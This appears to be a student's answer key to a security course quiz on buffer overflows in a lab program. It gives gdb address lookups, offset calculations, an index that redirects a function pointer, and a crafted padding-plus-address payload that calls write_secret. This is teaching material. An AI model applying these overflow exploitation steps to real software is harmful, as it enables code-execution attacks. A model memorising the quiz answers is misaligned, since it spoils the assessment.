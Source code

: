 # VM BOF QUIZ

##### 1. There is a stack-based overflow in the program.

What is the name of the stack-allocated variable that contains the overflowed buffer?

***wis***

##### 2.  Consider the buffer you just identified:

Running what line of code will overflow the buffer?

***62***

##### 3.  There is another vulnerability, not dependent at all on the first,

involving a non-stack allocated buffer that can be indexed outside its bounds. What variable contains this buffer?

***ptrs***

##### 4.  Consider the buffer you just identified: Running what line of code overflows the buffer?

***101***

##### 5. What is the address of buf?

***0xbfff f130***

##### 6. What is the address of ptrs?

***0x0804 a0d4***

##### 7, What is the address of write_secret?

***0x0804 8534***

##### 8. what is the address of p local to main?

***0xbfff f534***

##### 9. What input do you provide so that ptrs[s] reads/executes the contents of variable p instead of function in ptrs buffer?If ok, you will execute pat_on_back function. Enter your answer as an unsigned integer.


(p-ptrs)/4 is

print /x (0xbffff534 - 0x804a0d4)/4

***0x2dfed518*** or ***771675416***

##### 10. What do you enter so that ptrs[s] reads (and then tries to execute) starting from the 65th byte in buf, ie. the location at buf[64]? Enter your answer as an unsiged integer.

(gdb) print /x &buf[64]

$6 = 0xbffff170

(gdb) print /d  (int*)&buf[64]-(int *)&ptrs

$14 = 771675175

***771675175***

##### 11. What do you replace \xEE\xEE\xEE\xEE with to call write_secret?


(gdb) print &write_secret

$7 = (void (*)(void)) 0x8048534 <write_secret>

***771675175\x00AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x34\x85\x04\x08***

##### 12. Suppose you wanted to overflow the wis variable to perform a stack smashing attack. You could do this by entering 2 to call put_wisdom, and then enter enough bytes to overwrite the return address of that function, replacing it with the address of write_secret. How many bytes do you need to enter prior to the address of write_secret?

$10 = ***148***